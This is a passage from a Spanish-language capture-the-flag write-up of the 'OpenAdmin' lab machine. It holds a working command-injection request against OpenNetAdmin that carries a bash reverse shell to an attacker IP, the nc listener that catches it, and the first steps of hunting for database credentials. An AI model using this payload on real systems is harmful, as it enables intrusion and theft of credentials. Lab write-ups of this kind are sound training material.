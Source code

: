 ```bash
❯ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.27/443 0>%261'&xajaxargs[]=ping" "http://10.10.10.171/ona/"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

connect to [10.10.14.27] from (UNKNOWN) [10.10.10.171] 40406
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ 
www-data@openadmin:/opt/ona/www$ whoami
whoami
www-data
www-data@openadmin:/opt/ona/www$
```

Ya nos encontramos como el usuario **www-data** y antes de hacer cualquier cosa, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ahora dentro del directorio en donde nos encontramos, ya vemos algunas cosas curiosas, como archivos y directorios de configuración:

```bash
www-data@openadmin:/opt/ona/www$ ls -la
total 72
drwxrwxr-x 10 www-data www-data 4096 Nov 22  2019 .
drwxr-x---  7 www-data www-data 4096 Nov 21  2019 ..
-rw-rw-r--  1 www-data www-data 1970 Jan  3  2018 .htaccess.example
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 config
-rw-rw-r--  1 www-data www-data 1949 Jan  3  2018 config_dnld.php
-rw-rw-r--  1 www-data www-data 4160 Jan  3  2018 dcm.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 images
drwxrwxr-x  9 www-data www-data 4096 Jan  3  2018 include
-rw-rw-r--  1 www-data www-data 1999 Jan  3  2018 index.php
drwxrwxr-x  5 www-data www-data 4096 Jan  3  2018 local
-rw-rw-r--  1 www-data www-data 4526 Jan  3  2018 login.php
-rw-rw-r--  1 www-data www-data 1106 Jan  3  2018 logout.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 modules
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 plugins
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 winc
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 workspace_plugins
www-data@openadmin:/opt/ona/www$
```

Si revisamos los archivos, no vemos nada interesante, así que vamos a realizar una busqueda para directorios `config` y vemos uno bajo `./local/config` y si le echamos un ojo, tiene un archivo `database_settings.inc.php` el cual tiene unas credenciales:

 ```bash
 www-data@openadmin:/opt/ona/www$ find \-name config 2>/dev/null
./config
./local/config
www-data@openadmin:/opt/ona/www$ cd local/config/
www-data@openadmin:/opt/ona/www/local/config$ ls -l
total 8
-rw-r--r-- 1 www-data www-data  426 Nov 21  2019 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21  2019 run_installer
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
 ```